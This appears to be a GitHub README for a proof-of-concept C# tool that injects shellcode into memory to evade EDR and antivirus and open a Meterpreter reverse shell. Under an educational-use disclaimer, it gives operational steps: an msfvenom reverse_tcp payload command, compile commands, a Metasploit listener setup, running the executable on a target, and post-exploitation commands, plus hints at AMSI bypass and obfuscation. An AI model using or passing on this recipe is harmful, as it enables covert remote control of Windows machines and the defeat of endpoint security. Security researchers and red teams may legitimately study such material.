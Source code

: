 # EDR-Antivirus-Bypass-to-Gain-Shell-Access

## EDR & Antivirus Bypass to Gain Shell Access

This repository contains a **proof-of-concept (PoC)** for bypassing EDR and antivirus solutions using a memory injection technique. The code executes shellcode that spawns a reverse shell, successfully evading detection by various security mechanisms.

---

## Description

This project demonstrates how to bypass EDR and antivirus protection using Windows API functions such as `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`. The payload is injected directly into the process memory without being detected by security tools, establishing a connection to a remote system for a reverse shell.

> **Disclaimer:** This code is for educational purposes only. Use it responsibly and only in environments where you have explicit permission to test.

---

## Features

- Bypasses standard EDR and antivirus solutions
- Executes shellcode in memory to create a reverse shell
- Utilizes `VirtualAlloc` and `CreateThread` to inject the payload directly into process memory

---

## Requirements

- Windows Operating System (Tested on Windows 10)
- Kali Linux (For reverse shell listener)
- Visual Studio or any C# compiler

---

## Steps to Compile & Run

### 1. Clone the Repository

```bash
https://github.com/murat-exp/EDR-Antivirus-Bypass-to-Gain-Shell-Access.git
cd EDR-Antivirus-Bypass-Shell-Access
```


### 2. Modify Shellcode

Before compiling, ensure that you modify the shellcode to point to your own IP address and port for the reverse shell. You can generate shellcode using `msfvenom:`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f csharp
```

Replace the `byte[] buf` section in Program.cs with the shellcode you just generated.


### 3. Compile the Code

Open the project in Visual Studio, or use the following command to compile the code using the .NET SDK:


```bash
csc bypass.cs
```

**Alternatively, you can compile in Release mode for better optimization:


```bash
csc -optimize bypass.cs
```


### 4. Start a Listener on Kali

On your Kali Linux machine, start a listener to catch the reverse shell. Use the following commands in Metasploit:


```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT <YOUR_PORT>
run
```


### 5. Execute the Payload

Transfer the compiled .exe file to the Windows machine. You can execute the file manually or use any other method to run the file:


```bash
bypass.exe
```


6. Obtain the Shell

Once the payload is executed on the target machine, you should see a reverse shell session open in your Metasploit console. From there, you can interact with the system:



```bash
meterpreter > sysinfo
meterpreter > shell
```


7. Additional Bypass Techniques

To avoid detection by advanced EDR solutions, consider using techniques like process injection, obfuscation, or AMSI bypasses. This PoC can be extended with these methods for more robust evasion.








